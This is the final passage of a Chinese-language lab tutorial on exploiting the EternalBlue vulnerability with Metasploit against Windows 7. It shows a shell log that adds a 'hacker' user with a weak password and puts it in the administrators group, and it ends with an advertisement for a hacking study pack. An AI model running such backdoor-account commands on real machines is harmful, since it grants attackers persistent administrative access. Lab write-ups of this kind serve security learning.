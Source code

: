 ```
C:\Windows\system32>net user hacker 123456 /add           
net user hacker 123456 /add
�����ɹ����ɡ�

C:\Windows\system32>net localgroup /add administrators hacker
net localgroup /add administrators hacker
�����ɹ����ɡ�

C:\Windows\system32>



```  
1. 验证：在win7的终端，输入net user查询用户列表，可以看到hacker用户已经在其中。  
  
  
1. ![](https://mmbiz.qpic.cn/sz_mmbiz_png/71ibgGpZLr2VqJVJSCjDLWCkyZvHFNn3HEQKfpZicqlXND0ia4WBcqaLyA1yFfrK47RZrjb9hBicTicUN0sQRt9rZicg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
#### 5.3 小结  
  
至此，已经完成了对该漏洞的检验与利用。  
### 6 总结  
1. 了解MSF框架的使用方法。  
  
1. 了解永恒之蓝漏洞。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/TiaI8Dth4IiaRCFva2ZibMZKuNBEDOAEmkUpM9icw4W4c0uuBMyX29u6qckgJ1Wb7jGgw9K61mqLhzlnsSFAtE78ibQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**网络安全学习包**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/TiaI8Dth4IiaRCFva2ZibMZKuNBEDOAEmkUGiakynth3MRTicLcHaV4MAvjubiaIicUx4ZrMxuSdSicjzT5HfEAzJy782g/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/TiaI8Dth4IiaRCFva2ZibMZKuNBEDOAEmkU7VZiaRU6vdoIQC9ToNyrFNvkWmp92gn3R2RWyGVEiaxjTlDjic3dPsW6g/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**资料目录**  
1. 成长路线图&学习规划  
  
1. 配套  
视频教程  
  
1. SRC&黑客文籍  
  
1. 护网行动资料  
  
1. 黑客必读书单  
  
1. 面试题合集  
  
  
  
**282G**  
《**网络安全/黑客技术入门学习大礼包**  
》，可以**扫描下方二维码免费领取**  
！  
  